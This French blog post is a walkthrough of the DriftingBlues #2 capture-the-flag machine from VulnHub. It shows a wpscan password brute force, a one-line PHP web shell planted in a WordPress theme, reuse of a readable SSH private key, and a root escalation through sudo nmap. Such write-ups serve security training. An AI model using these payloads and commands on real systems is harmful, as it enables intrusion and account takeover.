 ```yaml
---
title: Solution du CTF DriftingBlues #2 de VulnHub
tags: [CTF, VulnHub]
---
```


Intro
-----

Après [le précédent opus]({% link _posts/2022-01-19-Solution-du-CTF-DriftingBlues-1-de-VulnHub.md %}) j'attaque donc ce second épisode des CTF DriftingBlues, toujours téléchargeable sur VulnHub  

```
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
| ftp-anon: Anonymous FTP login allowed (FTP code 230) 
|_-rwxr-xr-x   1 ftp      ftp       1403770 Dec 17  2020 secret.jpg 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Il y a un serveur FTP qui autorise les connexions anonymes comme nous le montre Nmap. Toutefois avec Filezilla on voit qu'on ne peut pas remonter dans l'arborescence. On a donc que ce fichier *secret.jpg* que l'on peut récupérer.  

Il s'agit d'une photo d'un guitariste et un coup d'éditeur hexa ou la récupération des métadonnées EXIF avec le premier logiciel de traitement photo trouvé ne sortent rien d'intéressant.  

Une recherche d'image inversée nous apprend que le guitariste est *Otis Rush*. Potentiellement un indice.  

Utiliser les outils de stéganographie est souvent une plaie. Le code est ancien et ne compile pas forcément sur des machines récentes. J'ai trouvé [une image Docker](https://hub.docker.com/r/dominicbreuker/stego-toolkit)
 qui contient les binaires utiles, c'est l'occasion d'essayer :  

```
$ docker run -it --rm -v $(pwd):/data dominicbreuker/stego-toolkit /bin/bash
root@eb06c29f1622:/data# stegdetect secret.jpg  
secret.jpg : negative
```

Oups... Les autres outils présents n'ont pas été plus utiles. Passons à autre chose.  

La force
--------

Via énumération sur le serveur web on trouve très vite un Wordpress à l'adresse */blog*. Les posts présents ont tous été créés par un utilisateur baptisé *albert*.  

Vu que j'avais du temps AFK j'ai lancé wpscan pour bruteforcer le compte avec la wordlist rockyou :  

```
$ docker run -v /tools/wordlists/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.7/blog/ -U albert -P /data/rockyou.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: albert, Password: scotland1
```

Je suppose qu'il y avait un indice avec le guitariste mais même en regardant sa page wikipedia pas de rapport à L'Ecosse, peut être qu'un des posts en faisait mention :-/   

Quoiqu'il en soit une fois connecté sur l'interface admin du Wordpress on va dans *Appeareance* puis *Theme Editor* pour éditer l'un des fichiers PHP du thème courant (*footer.php* pour moi) :  

```php
<?php if (isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>
```

Comme ça je peux passer des commandes sur le Wordpress et obtient l'output en bas de page.  

Mercury
-------

Un des premiers réflexes est de regarder le fichier */etc/passwd* qui nous renseigne sur les utilisateurs présents :  

```
freddie:x:1000:1000:freddie,,,:/home/freddie:/bin/bash
```

Cet utilisateur dispose du flag *user.txt* qui ne nous est pas lisible. En revanche sa clé privée SSH l'est !  

```
www-data@driftingblues:/var/www/html/blog$ ssh -i /home/freddie/.ssh/id_rsa freddie@127.0.0.1 
Could not create directory '/var/www/.ssh'. 
load pubkey "/home/freddie/.ssh/id_rsa": Permission denied 
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established. 
ECDSA key fingerprint is SHA256:/+Mlgo9EqzVybvI0rol0jnjKctAvhqRyag+YeY+IMrs. 
Are you sure you want to continue connecting (yes/no)? yes 
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts). 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
freddie@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 
```

GTFO
----

```
freddie@driftingblues:~$ sudo -l 
Matching Defaults entries for freddie on driftingblues: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

User freddie may run the following commands on driftingblues: 
    (root) NOPASSWD: /usr/bin/nmap
```

*Freddie* peut utiliser Nmap en tant que root sans donner de mot de passe. Pratique mais faillible [d'après GTFObins](https://gtfobins.github.io/gtfobins/nmap/) :  

```
freddie@driftingblues:~$ echo 'os.execute("/bin/sh")' > command.py
freddie@driftingblues:~$ sudo /usr/bin/nmap --script=command.py 
Starting Nmap 7.70 ( https://nmap.org ) at 2022-01-19 13:30 CST 
NSE: Warning: Loading 'command.py' -- the recommended file extension is '.nse'. 
# uid=0(root) gid=0(root) groups=0(root) 
# # root.txt 
# flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Cette exploitation cache l'input d'où l'absence des commandes dans l'affichage précédent.  


*Published January 19 2022 at 21:01*
